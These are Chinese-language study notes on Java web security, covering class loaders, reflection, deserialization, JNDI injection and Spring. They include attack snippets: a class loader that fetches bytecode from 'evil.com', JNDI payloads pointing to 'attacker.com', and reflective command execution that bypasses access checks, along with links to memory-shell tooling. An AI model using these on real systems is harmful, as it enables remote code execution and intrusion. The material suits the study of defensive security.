


![[attachments/20251113.png]]

> https://www.javasec.org/
> 
> https://mp.weixin.qq.com/s/c_4fOTBKDcByv8MZ9ayaRg

- 栈，线程私有，存放基本数据类型变量，对象引用，方法调用帧（局部变量表，方法返回地址等）；
- 堆，线程共享，实例对象，数组对象，常量池（JDK7+），类变量，线程局部变量。

## JVM 类加载器

通常漏洞利用（eg：反序列化、JNDI 注入）等都需要 JVM 把构造好的恶意代码加载进入才能执行。（eg：反序列化，将数据流转变回对象时，JVM 需要根据数据里面的信息去加载对应的类，若构造了恶意的特殊数据，诱导 JVM 加载危险的类则就诱发漏洞利用；JNDI 注入就是诱导 Java 去远程加载一个恶意的类；）

Java 被认为相对安全，是因为其将不同来源的代码隔离开，这种隔离依靠不同的类加载器来实现。

### 类的生命周期

![[attachments/20260203.png]]

- 加载：将 `.class` 文件的二进制流读入 JVM 的类加载器（ClassLoader），并在内存中生成一个代表该类的 `java.lang.Class` 对象；
	- 类加载器不仅可以从硬盘加载，还可以从网络加载；
	- 攻击者可以写自己的 ClassLoader 来绕过安全检查，加载恶意的字节码；
- 验证：检查 `.class` 文件是否符合规范，有没有危害虚拟机的指令；
- 准备：为类的静态变量（`static`）分配内存，并设默认值（比如 0 或 null）；
- 解析：把代码里的符号引用（比如“调用那个打印函数”）换成直接引用（内存里的具体地址）；
- 初始化：执行类中的静态代码块（`static { ... }`）和静态变量的赋值；
	- 可将恶意代码藏在 `static` 代码块里，类一旦加载，代码会自动执行；
- 使用：JVM 开始执行的 `main` 方法或者其他方法。这时候字节码被解释执行，或者被 JIT 编译器编译成机器码执行。
	- 可动态生成类并加载，不生成文件只在内存运行（内存马）；
	- 反射调用私有化方法；
- 卸载：当一个类不再被使用，且加载它的 ClassLoader 也被回收时，JVM 的垃圾回收器（GC）会把这个类从内存中清除；
	- 持久化（eg：将内存马绑定到不会被回收的核心类加载器上）



### 类加载器的分类

![[attachments/20260316.png]]

- Bootstrap ClassLoader（启动类加载器）：C++实现，JVM 内部，负责 Java 核心类库 (`rt.jar`、`java.lang.*`)，路径在 `$JAVA_HOME/jre/lib`；（核心保护类，几乎无法直接攻击，但可尝试污染核心类路径）
- Extension ClassLoader（扩展类加载器）：Java 实现，复则扩展类库（ext 目录），路径在 `$JAVA_HOME/jre/lib/ext`；（隔离扩展代码，一些官方认证外包，如果 ext 目录权限配置不当，可能被植入恶意 jar）
- Application ClassLoader（应用程序类加载器）：Java 实现，负责 classpath 下的用户代码，路径在 `-classpath` 指定的目录；（加载业务代码，最常见的攻击入口（反序列化、文件上传等））
- Custom ClassLoader（自定义类加载器）：自己写的 Java 代码，负责网络加载、加密加载、隔离加载等，场景：热更新、插件系统、安全沙箱；（攻击者可自定义加载器绕过检查，或用于隐蔽加载恶意代码）

### 双亲委派模型

```java
// 伪代码：双亲委派的核心逻辑
protected Class<?> loadClass(String name, boolean resolve) {
    // 1. 先看看这个类是不是已经加载过了
    Class<?> c = findLoadedClass(name);
    
    if (c == null) {
        try {
            // 2. 有父加载器？先让父加载器尝试加载（委派）
            if (parent != null) {
                c = parent.loadClass(name, false);
            } else {
                // 3. 没有父加载器（Bootstrap），用原生方法加载
                c = findBootstrapClassOrNull(name);
            }
        } catch (ClassNotFoundException e) {
            // 4. 父加载器都加载不了，才自己尝试加载
            if (c == null) {
                c = findClass(name);  // 自定义加载器主要重写这个方法
            }
        }
    }
    
    if (resolve) {
        resolveClass(c);  // 链接阶段
    }
    return c;
}
```

作用：

- 防止核心类被篡改：攻击者写了一个 `java.lang.String` 恶意类，想替换原版。但因为双亲委派，请求会先交给 Bootstrap 加载器，它会加载真正的核心类，攻击者的类永远没机会被加载。
- 避免类的重复加载：同一个类在 JVM 里只有一份，防止不同模块加载不同版本的类导致冲突（也防止攻击者用“同名不同内容”的类）。
- 建立信任链：上层加载器加载的类，天然被下层信任。这为 Java 的沙箱安全模型打下基础。

部分场景需要子加载器优先：

- SPI 机制（JDBC、JNDI）：核心类需要加载用户实现的类
- 热部署/插件系统：不同插件需要隔离，不能互相干扰
- 攻击场景：攻击者自定义 ClassLoader，绕过双亲委派，加载恶意字节码

```java
// 打破双亲委派的示例（重写 loadClass）
public class EvilClassLoader extends ClassLoader {
    @Override
    protected Class<?> loadClass(String name, boolean resolve) {
        // 不先问父加载器，自己直接加载
        return findClass(name);
    }
    
    @Override
    protected Class<?> findClass(String name) {
        // 从网络/加密数据/内存中读取字节码
        byte[] bytes = loadByteFromSomewhere(name);
        return defineClass(name, bytes, 0, bytes.length);
    }
}
```

### 类加载的几种方式

- 隐式加载：new 一个对象、调用静态方法、访问静态字段时；JVM 自动触发，用户无感知

```java
// 执行到这行时，User 类会被自动加载
User user = new User();
```

可利用"自动加载"特性，在静态代码块中埋后门

- 显式加载：代码主动调用 Class.forName() 或 ClassLoader.loadClass()

```java
// 方式 1：加载 + 初始化（会执行 static 代码块）
Class<?> c1 = Class.forName("com.evil.Malicious");

// 方式 2：只加载，不初始化（更安全）
Class<?> c2 = ClassLoader.getSystemClassLoader().loadClass("com.evil.Malicious");
```

反序列化漏洞、JNDI 注入常利用 Class.forName 触发恶意类初始化

- 反射加载：通过反射 API 动态调用类或方法

```java
Class<?> clazz = Class.forName("com.evil.Backdoor");
Object instance = clazz.newInstance();  // 创建实例
Method method = clazz.getMethod("doEvil");
method.invoke(instance);  // 执行恶意方法
```

制作内存马、Webshell 常用反射绕过代码审计，因为调用关系在源码里看不出来

- 自定义 ClassLoader 加载：自己写一个 ClassLoader，从网络、数据库、加密文件中加载字节码；核心方法：重写 `findClass()` + 调用 `defineClass()`

```java
public class NetworkClassLoader extends ClassLoader {
    protected Class<?> findClass(String name) {
        // 从远程服务器下载字节码
        byte[] bytes = downloadFromHttp("http://evil.com/" + name + ".class");
        // 把字节码"定义"为一个类（关键！）
        return defineClass(name, bytes, 0, bytes.length);
    }
}
```

可用于实现安全沙箱、插件隔离；攻击者用它在内存中动态加载恶意类，不留文件痕迹（高级内存马）

- 方法句柄/InvokeDynamic：Java 7+ 的 MethodHandle 或 invokedynamic 指令
，更灵活的调用方式，常用于动态语言支持

高级攻击技术可能用它绕过传统检测



## Web 服务-Servlet

Servlet 生命周期

1. `init()`：初始化阶段，只被调用一次，Servlet 第一次创建时被调用；
2. `service()`：服务阶段，主要处理来自客户端的请求，根据 HTTP 请求类型来调用对应的方法（`doGet()`、`doPost()`、`doPut()` 等）；
3. `destroy()`：销毁阶段，只被调用一次，Servlet 生命期结束时被调用；一般在关闭系统时执行。

![[attachments/20250917.png]]

![[attachments/20250917-1.png]]

![[attachments/20250917-2.png]]

> https://blog.csdn.net/qq_52173163/article/details/121110753

pom.xml 配置 servlet 依赖

```xml
<dependency>  
    <groupId>javax.servlet</groupId>  
    <artifactId>javax.servlet-api</artifactId>  
    <version>3.1.0</version>  
    <scope>compile</scope>  
</dependency>
```

servlet 中需根据 URL 路径匹配映射到对应的 servlet 。web.xml 中注册 servlet（即路径映射类名，浏览器访问对应的路径实际访问的是哪个类）

```xml
<web-app>  
	<!-- 应用的显示名称 -->
    <display-name>Archetype Created Web Application</display-name>  
     <!-- 注册 Servlet：定义名称和对应的类 -->
    <servlet>        
	    <servlet-name>FirstServlet</servlet-name>  
	    <servlet-class>FirstServlet</servlet-class>  
    </servlet>   
    
    <!-- 映射 Servlet：将 URL 路径绑定到已注册的 Servlet --> 
    <servlet-mapping>        
	    <servlet-name>FirstServlet</servlet-name>  
	    <url-pattern>/FirstServlet</url-pattern>  
    </servlet-mapping>
</web-app>
```

- 过滤器 Filter ，常用于过滤一些字符编码、危险字符等，用来统一业务，防范 SQL 注入、XSS 等；对 web 资源进行管理，如权限访问控制、过滤敏感词汇、压缩响应信息等一些高级功能；
- 监听器 Listener ，主要做一些初始化内容（监听器在过滤器之前启动），监听 ServletContext、HttpSession、ServletRequest 等域（作用域）对象创建和销毁事件；监听域对象的属性发生修改后的事件，在事件发生前、发生后做一些必要的处理； https://blog.csdn.net/qq_52797170/article/details/124023760

- 内存马 https://mp.weixin.qq.com/s/hev4G1FivLtqKjt0VhHKmw

同样的需要在 web.xml 文件中配置过滤器、监听器等映射关系从而使其生效（或用 `@WebFilter()` 注解的方式进行注册）。（程序执行访问 web.xml 文件从上到下，所以过滤器、监听器一般放在前面）

## Tomcat 流程

执行流程...

Tomcat 4 类容器组件

- Engine：最顶层容器组件，其下可包含多个 Host
- Host


-  Context(/app1,/app2)

- Wrapper


## 数据库连接

Maven 配置 https://blog.csdn.net/cxy2002cxy/article/details/144809310

### JDBC 

https://www.jianshu.com/p/ed1a59750127

pom.xml 依赖下载与引用 https://mvnrepository.com/

```java
// 2、注册数据库驱动
Class.forName("com.mysql.jdbc.Driver");
// 3、建立数据库连接
String url = "jdbc:mysql://localhost:3306/phpstudy";
Connection connection = DriverManager.getConnection(url,"root","123456");
// 4、创建Statement执行SQL
Statement statement= connection.createStatement();
ResultSet resultSet = statement.executeQuery(sql);
// 5、结果ResultSet进行提取
while (resultSet.next()){
    int id = resultSet.getInt("id");	// 获取对应的值
    String page_title = resultSet.getString("page_title");
    .......
}
```

- 安全写法(预编译 PreparedStatement)： `"select * from admin where id=?"`
- 不安全写法(拼接)： `"select * from admin where id=" + id`（存在注入漏洞）

### Hibernate

（pom.xml 引用依赖 hibernate-core，mysql-connector-java）

- 安全写法：`String hql = "FROM User WHERE username=:username";`
- 不安全写法：`String hql = "FROM User WHERE username='"+username+"'";`

### MyBatis

mybatis，mysql-connector-java

- 安全写法： `select * from admin where id = #{id}`
- 不安全写法：`select * from admin where id = ${id}`

上面两种都是用 xml 和实体类/对象之间的映射关系来进行数据库操作。

## 反射&类加载&构造方法等

> java 反射
> 
> https://xz.aliyun.com/t/9117 
> https://www.zhihu.com/question/377483107

Java 提供一套反射 API，由 Class 类与 java.lang.reflect 类库组成，包含 Field、Method、Constructor 等类，对成员变量，成员方法和构造方法的信息进行的编程操作可以理解为反射机制。

在**运行时**获得程序或程序集中每一个类型的成员和成员的信息，从而**动态的创建、修改、调用、获取其属性**，而不需要事先知道运行的对象是谁。**注：在运行时而不是编译时**。（不改变原有代码逻辑，自行运行的时候动态创建和编译即可）

- 反射机制开发应用场景
	- Spring 框架的 IOC 基于反射创建对象和设置依赖属性。
	- SpringMVC 的请求调用对应方法，也是通过反射。
	- JDBC 的 `Class.forName` (String className) 方法，也是使用反射。
- 安全应用场景
	- 构造利用链，触发命令执行；
	- 反序列化中的利用链构造；
	- 动态获取或执行任意类中的属性或方法；
	- 动态代理的底层原理是反射技术；
	- RMI 反序列化也涉及到反射操作；

![[attachments/20250917-3.png]]

### 利用反射获取对应类的几种方式

```java
import com.user.User;

public class GetClass {
    public static void main(String[] args) throws ClassNotFoundException {
        // Class.forName("全路径类名")
        Class<?> aClass = Class.forName("com.user.User");
        System.out.println(aClass);
		// 对象.getClass()
        User user = new User();
        Class<? extends User> aClass1 = user.getClass();
        System.out.println(aClass1);
		// 类名.class
        Class userClass = User.class;
        System.out.println(userClass);
		// 通过类加载器获得Class对象
        ClassLoader systemClassLoader = ClassLoader.getSystemClassLoader();
        Class<?> aClass2 = systemClassLoader.loadClass("com.user.User");
        System.out.println(aClass2);
    }
}
```

### 获取成员变量

![[attachments/20250917-4.png]]

```java
Class aClass = Class.forName("com.example.reflectdemo.User");
// 获取公共成员变量对象 getFields
Field[] fields = aClass.getFields();
for(Field f:fields){
	System.out.println(f);
}

// 获取所有成员变量对象 getDeclaredFields
Field[] fields = aClass.getDeclaredFields();
for(Field f:fields){
	System.out.println(f);
}

// 获取公共，私有单个成员变量对象
Field field = aClass.getField("age");
Field field = aClass.getDeclaredField("gender");
System.out.println(field);

// 成员变量值获取和赋值set get
User u = new User();
Field field = aClass.getField("age");
field.set(u, 30);
Object a = field.get(u);
System.out.println(a);
```

### 获取成员方法

![[attachments/20250917-5.png]]

```java
Class aClass = Class.forName("com.example.reflectdemo.User");

// 返回所有公共成员方法对象的数组，包括继承的 getMethods
Method[] methods = aClass.getMethods();
for (Method me:methods){
   System.out.println(me);
}

// 返回所有成员方法对象的数组，不包括继承的 getDeclaredMethods
Method[] methods = aClass.getDeclaredMethods();
for (Method me:methods){
   System.out.println(me);
}

// 返回单个公共成员方法对象 getMethod
Method methods = aClass.getMethod("getName");
System.out.println(methods);

Method methods = aClass.getMethod("setName", String.class);
System.out.println(methods);

// 返回单个成员方法对象 getDeclaredMethod
Method methods = aClass.getDeclaredMethod("UserInfo", String.class, int.class, String.class);
System.out.println(methods);

// 运行方法invoke
Method methods = aClass.getDeclaredMethod("UserInfo", String.class, int.class, String.class);
User u = new User();
//私有需要开启临时
methods.setAccessible(true);
methods.invoke(u,"aily",18,"man");

```

### 获取构造方法

![[attachments/20250917-6.png]]

```java
Class aClass = Class.forName("com.example.reflectdemo.User");
// 返回所有公共构造方法对象的数组 getConstructors
Constructor[] constructors = aClass.getConstructors();
for(Constructor con:constructors){
   System.out.println(con);
}

// 返回所有构造方法对象的数组 getDeclaredConstructors
Constructor[] constructors = aClass.getDeclaredConstructors();
for(Constructor con:constructors){
   System.out.println(con);
}

// 返回单个公共构造方法对象 getConstructor
Constructor con1=aClass.getConstructor();
Constructor con1=aClass.getConstructor(String.class);
System.out.println(con1);

// 返回单个构造方法对象 getDeclaredConstructor
Constructor con2=aClass.getDeclaredConstructor(int.class);
Constructor con2=aClass.getDeclaredConstructor(String.class,int.class, String.class);
System.out.println(con2);

Constructor con2=aClass.getDeclaredConstructor(int.class);
con2.setAccessible(true);
User uu=(User) con2.newInstance("aily",30,"man");
System.out.println(uu);
```

获取对应的方法后，通过 newInstance() 来实例化对象，invoke() 传参并执行。

### 利用反射进行命令执行

```java
// Runtime.getRuntime().exec("calc");
// 利用反射进行命令执行
Class<?> clazz = Class.forName("java.lang.Runtime");  // 通过字符串名字找类 
Method execMethod = clazz.getMethod("exec", String.class);  // 通过字符串名字找方法
Method getRuntimeMethod = clazz.getMethod("getRuntime"); 
// 调用 getRuntime() 拿到真正的 Runtime 对象
// getRuntime 是静态方法，所以第一个参数传 null 
Object runtime = getRuntimeMethod.invoke(null);  
execMethod.invoke(runtime, "calc.exe");


Class<?> clazz = Class.forName("java.lang.Runtime");  
Constructor<?> m = clazz.getDeclaredConstructor();  
System.out.println(m);  // private java.lang.Runtime()
m.setAccessible(true);  // 破除private限制
Method c1 = clazz.getMethod("exec", String.class);  
System.out.println(c1);  // public java.lang.Process java.lang.Runtime.exec(java.lang.String) throws java.io.IOException
c1.invoke(m.newInstance(), "calc.exe");


Class<?> clazz = Class.forName("java.lang.ProcessBuilder");  
Object object = clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"));  
clazz.getMethod("start").invoke(object, null);
// 还有上面命令执行中提到的一种方法
```

不安全的利用链 https://zhuanlan.zhihu.com/p/165273855

反序列化利用链 https://xz.aliyun.com/t/7031

安全应用案例-内存马技术 https://github.com/pen4uin/java-memshell-generator

## 动态代理

代理模式，代理类为委托类预处理、过滤、转发消息，以及事后处理消息等操作。

在程序运行时，自动生成一个**代理对象**，这个代理对象会“拦截”你对目标对象的调用，并在调用前后或调用过程中添加额外的逻辑。

```java file:Calculator.java
public interface Calculator {  
    int add(int a, int b);  
    int sub(int a, int b);  
}
```

```java file:RealCalculator.java
public class RealCalculator implements Calculator {  
    @Override  
    public int add(int a, int b) {  
        // 核心业务逻辑  
        return a + b;  
    }  
  
    @Override  
    public int sub(int a, int b) {  
        // 核心业务逻辑  
        return a - b;  
    }  
}
```

```java file:LogHandler.java
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Method;  
  
public class LogHandler implements InvocationHandler {  
  
    // 持有目标对象（RealCalculator）的引用  
    private Object target;  
  
    public LogHandler(Object target) {  
        this.target = target;  
    }  
  
    /**  
     * @param proxy  自动生成的代理对象实例 (一般不直接使用)  
     * @param method 正在被调用的方法 (如 add, sub)  
     * @param args   方法的参数 (如 a, b)  
     * @return 方法的返回值  
     */  
    @Override  
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
  
        // --- 增强逻辑 (前置处理) ---  
        // 在调用目标方法前，先记录日志  
        System.out.println(">>> [Log] 开始调用方法: " + method.getName());  
        System.out.print(">>> [Log] 参数是: ");  
        for (Object arg : args) {  
            System.out.print(arg + " ");  
        }  
        System.out.println();  
  
        // --- 调用目标对象方法 (核心业务) ---  
        // 真正调用 RealCalculator 里的 add 或 sub 方法  
        Object result = method.invoke(target, args);  
  
        // --- 增强逻辑 (后置处理) ---  
        // 在调用目标方法后，再记录日志  
        System.out.println(">>> [Log] 方法执行完毕，结果是: " + result);  
        System.out.println("---");  
  
        return result; // 返回计算结果  
    }  
}
```

```java file:ProxyDemo.java
import java.lang.reflect.Proxy;  
  
public class ProxyDemo {  
    public static void main(String[] args) {  
        // 1. 创建目标对象  
        Calculator realCalculator = new RealCalculator();  
  
        // 2. 创建 InvocationHandler (传入目标对象)  
        LogHandler handler = new LogHandler(realCalculator);  
  
        // 3. 核心步骤：使用 Proxy 类动态生成代理对象  
        Calculator proxyCalculator = (Calculator) Proxy.newProxyInstance(  
                realCalculator.getClass().getClassLoader(), // 类加载器  
                realCalculator.getClass().getInterfaces(),  // 目标对象实现的接口 (代理要实现的接口)  
                handler                                     // 代理逻辑处理器  
        );  
  
        // 4. 使用代理对象调用方法  
        System.out.println("使用动态代理对象调用 add 方法:");  
        int sum = proxyCalculator.add(10, 5);  
        System.out.println("最终结果: " + sum); // 15  
  
        // 5. 调用 sub 方法  
        System.out.println("\n使用动态代理对象调用 sub 方法:");  
        int diff = proxyCalculator.sub(20, 8);  
        System.out.println("最终结果: " + diff); // 12  
    }  
}
```

```txt
使用动态代理对象调用 add 方法: 
>>> [Log] 开始调用方法: add 
>>> [Log] 参数是: 10 5 
>>> [Log] 方法执行完毕，结果是: 15 
--- 
最终结果: 15 

使用动态代理对象调用 sub 方法: 
>>> [Log] 开始调用方法: sub 
>>> [Log] 参数是: 20 8 
>>> [Log] 方法执行完毕，结果是: 12 
--- 
最终结果: 12
```

## 序列化与反序列化

> https://xz.aliyun.com/news/12113

 readObject， `java.io.ObjectInputStream` 类的一个方法，用于从字节流中读取数据并重建 Java 对象（即反序列化）

序列化 ID

transient 关键字会阻止指定字段序列化

readObject 方法，在反序列化过程中，该方法会在默认的反序列化机制执行之前被调用，允许在对象反序列化时执行一些自定义的逻辑。（重写 readObject 方法）

### 常见的创建的序列化和反序列化协议

• JAVA 内置的 writeObject()/readObject()
• JAVA 内置的 XMLDecoder()/XMLEncoder
• XStream
• SnakeYaml
• FastJson
• Jackson

### 反序列化安全问题

JAVA 内置 writeObject()/readObject() 内置原生写法：

- `writeObject()`：主要用于将 Java 对象序列化为字节流并写入输出流
- `readObject()`：主要用于从输入流中读取字节序列反序列化为 Java 对象
- `FileInputStream`：其主要作用是从文件读取字节数据
- `FileOutputStream`：其主要作用是将字节数据写入文件
- `ObjectInputStream`：用于从输入流中读取对象，实现对象的反序列化操作
- `ObjectOutputStream`：用于将对象并写入输出流的类，实现对象的序列化操作

利用：

• 序列化的对象有没有重写 readObject 方法（危险代码）
• 序列化的对象有没有被输出就会调用 toString 方法（危险代码）
• 其他类的 readObject 或 toString 方法（反序列化类可控）

### 反序列化利用链

- 入口类的 readObject 直接调用危险方法
- 入口参数中包含可控类，该类有危险方法，readObject 时调用
- 入口类参数包含可控类，该类又调用其他有危险方法类，readObject 调用
- 构造函数/静态代码块等类加载时隐式执行

### 反序列化利用条件：

- 可控的输入变量进行了反序列化操作
- 实现了 Serializable 或者 Externalizable 接口的类的对象
- 能找到调用方法的危险代码或间接的利用链引发（依赖链）

![[attachments/20251128.png]]

> https://mp.weixin.qq.com/s/R3c5538ZML2yCF9pYUky6g
> 
> https://mp.weixin.qq.com/s/t8sjv0Zg8_KMjuW4t-bE-w

搞清楚入口类，需要修改的值，需要传递的值

## JNDI

![[attachments/20260113.png]]

JNDI，Java 的命名与目录服务 API，其提供了一套标准接口，让 Java 程序可以通过一个名称（Name），来查找并获取到实际的资源（Object）。通过统一化接口，查找/访问各种外部资源：目录服务、配置中心、远程对象等。

> 主要目的是实现解耦（Decoupling）。它将资源的配置细节（例如，数据库的 URL、用户名、密码）从应用程序的核心代码中分离出来。

> https://blog.csdn.net/dupei/article/details/120534024

JNDI 不仅可以查找本地资源，还可以查找远程服务，例如使用 LDAP（轻量级目录访问协议）或 RMI（远程方法调用）协议。

相当于项目中包含各种资源，数据库连接池、消息队列、远程 RMI 服务、LDAP 目录服务，不需要记住每个资源详细信息（IP、端口、配置），只需要将名字给 JNDI，它帮你找对应的资源。

其允许通过 URL 加载远程对象支持 `ldap://`、`rmi://`、`dns://` 等协议。

```java
// 找叫 "jdbc/MyDB" 的资源
DataSource ds = (DataSource) ctx.lookup("jdbc/MyDB");

// JNDI：查找，并将他它的连接对象返回
```

当开发者在定义 JNDI 接口初始化时， `lookup()` 的参数**可控**（比如来自用户输入），攻击者就可以传入恶意地址

```java
// 用户输入直接拼接到 lookup
String userInput = request.getParameter("service");  // 攻击者传入: rmi://evil.com/exploit
Object obj = ctx.lookup(userInput);  // 诱导连接恶意服务器
```

Payload 示例：

```
rmi://attacker.com:1099/evil
ldap://attacker.com:1389/obj
```

> - Log4j https://mp.weixin.qq.com/s/95Jxj3R9q95CFhCn86IiYA
> - Fastjson https://mp.weixin.qq.com/s/EPdNElXPcZd5wEmQqAhFiQ
> - XStream https://mp.weixin.qq.com/s/M_oQyZYQEFu0nbG-IpJt_A
> - Shiro https://mp.weixin.qq.com/s/kmGcrVmaLi0Db_jwKKNXag
> - SnakeYaml https://www.cnblogs.com/F12-blog/p/18151239

### RMI

远程方法调用，允许在不同的 JVM 之间通讯。默认端口 1099，JNDI 注入最经典的协议

https://paper.seebug.org/1012/

![[attachments/20251120.png]]

> https://paper.seebug.org/1091/
> 
> https://y4er.com/posts/java-rmi/
> 
> https://goodapple.top/archives/321
> 
> https://paper.seebug.org/1251/

### LDAP

轻量级目录访问协议，端口 389/1389 Log4j2、FastJson 主流利用方式

## Spring Boot

https://springdoc.cn/spring-boot/

https://github.com/LandGrey/SpringBootVulExploit

## 模版引擎

### Thymeleaf

https://xz.aliyun.com/news/9962

### FreeMarker

https://mp.weixin.qq.com/s/TtNxfSYsB4HMEpW_OBniew

### Velocity

https://blog.csdn.net/2401_83799022/article/details/141600988

## Spring MVC

MVC 一种软件框架模式，即模型（Model）处理数据逻辑、视图（View）信息显示、控制器（Controller）控制数据与用户交互。

控制器通常负责从视图读取数据，处理用户输入，并向模型发送数据，也可以从模型中读取数据，再发送给视图，由视图显示。

![[attachments/20251112.png]]

![[attachments/20251112-1.png]]

- DispatcherServlet（调度器 Servlet）接收客户端所有请求并将其分派给适当的处理程序（Controller）；
- HandlerMapping（处理程序映射）将请求映射到相应的处理程序（Controller）；
- HandlerAdapter（处理程序适配器）负责调用实际的处理程序（Controller）来处理请求，并将处理结果返回给 DispatcherServlet ；

> https://pdai.tech/md/spring/spring-x-framework-springmvc.html
> 
> https://pdai.tech/files/kaitao-springMVC.pdf

Spring、Spring MVC 及 Spring Boot 区别： https://www.jianshu.com/p/42620a0a2c33

> https://juejin.cn/post/6844903912034533383
> 
> https://potoyang.gitbook.io/spring-in-action-v5/

### 简单项目层级架构

Controller → Service → Mapper → Entity 经典四层结构

```txt
浏览器
   ↓ (HTTP GET /user/1)
Controller（UserController）
   ↓ 调用 userService.getUserById(1)
Service（UserServiceImpl）
   ↓ 调用 userMapper.findById(1)
Mapper（UserMapper + UserMapper.xml）
   ↓ 执行 SQL：SELECT * FROM user WHERE id = 1
数据库（MySQL / PostgreSQL 等）
   ↑ 返回结果集
Mapper → 将结果自动映射为 User 对象
   ↑ 返回 User 对象
Service → 可能做额外处理（如脱敏、组合数据）
   ↑ 返回处理后的 User
Controller → 将 User 转为 JSON 返回
   ↑
浏览器（收到 JSON 响应）
```

### 项目打包

打包部署 JAR&WAR https://mp.weixin.qq.com/s/HyqVt7EMFcuKXfiejtfleg

> 打包报错解决
> 
> https://blog.csdn.net/Mrzhuangr/article/details/124731024
> https://blog.csdn.net/wobenqingfeng/article/details/129914639

war 包

1. pom.xml 加入或修改：

`<packaging>war</packaging>`

2. 启动类里面加入配置：

```java
public class TestSwaggerDemoApplication extends SpringBootServletInitializer

@Override
protected SpringApplicationBuilder configure(SpringApplicationBuilder builder) {

	return builder.sources(TestSwaggerDemoApplication.class);
}
```

maven -> clean -> package

java -jar xxxxxx.jar

war 放置 tomcat 后启动

## Actuator 监控依赖

健康检查，审计，指标收集，HTTP 跟踪等，帮助监控和管理 Spring Boot 应用

![[attachments/20251128-1.png]]

安全问题 heapdump 泄露

SpringCloud Gateway RCE

https://www.cnblogs.com/qgg4588/p/18104875

接口依赖-Swagger

https://blog.csdn.net/lsqingfeng/article/details/123678701

自动化测试

应用接口泄露

未授权访问、信息泄露、文件上传等

## 身份验证

身份验证的常见技术：

1. JWT
2. Shiro
3. Spring Security
4. OAuth 2.0
5. SSO
6. JAAS

JWT

![[attachments/20251128-2.png]]

https://mp.weixin.qq.com/s/xH_v825bNqDszwmMOe8CBw

SpringSecurity

https://mp.weixin.qq.com/s/5tj6O4TA04QWyWnsd-EmEA

https://mp.weixin.qq.com/s/M1FiPKJRAWgwaKCtyNW8eQ

---

## JSP

基于 Java ，动态网页技术，JSP 标签在 HTML 页面中插入 Java 代码。

生命周期：编译阶段（解析 JSP 文件 -> 将 JSP 文件转为 Servlet -> 编译 Servlet）、初始化阶段、执行阶段、销毁阶段。

（SpringBoot 默认不引入 JSP 解析，需引入特定依赖，JSP 木马逐渐没落）

## 文件操作

### 上传

Multipartfile

ServletFileUpload

### 读取

java.nio.file.Files

java.io.FileReader

java.io.BufferedReader

Scanner

RandomAccessFile 断点续传

commons-io

Files.readString

## 命令执行

java.lang.Runtime

java.lang.ProcessBuilder

java.lang.UNIXProcess/ProcessImpl

ProcessImpl 是更为底层的实现，Runtime 和 ProcessBuilder 执行命令实际上也是调用了 ProcessImpl 这个类；

```java
// 方法1
Process process = Runtime.getRuntime().exec("calc");

// 方法2
ProcessBuilder builder = new ProcessBuilder("calc");
Process process = builder.start();

// 方法3
String[] cmd = {"calc"};

// 1. 获取 ProcessImpl 类
Class<?> processImplClass = Class.forName("java.lang.ProcessImpl");

// 2. 获取私有的 start 方法（注意参数类型）
Method startMethod = processImplClass.getDeclaredMethod(
	"start",
	String[].class,   // 命令数组
	Map.class,        // 环境变量（null 表示继承当前环境）
	String.class,     // 工作目录（如 "."）
	ProcessBuilder.Redirect[].class, // 重定向（null 表示默认）
	boolean.class     // 是否 redirectErrorStream（false 即可）
);

// 3. 设置可访问（绕过 private 限制）
startMethod.setAccessible(true);

// 4. 调用方法（静态方法，第一个参数为 null）
Process process = (Process) startMethod.invoke(
	null,     // 静态方法，实例为 null
	cmd,      // 命令
	null,     // 环境变量
	".",      // 工作目录
	null,     // 重定向
	false     // 是否合并错误流
);
```

## PS：

环境服务器配置修改为： https://start.aliyun.com （新版本的 IDEA 有的新建项目没有 java8 的选项）
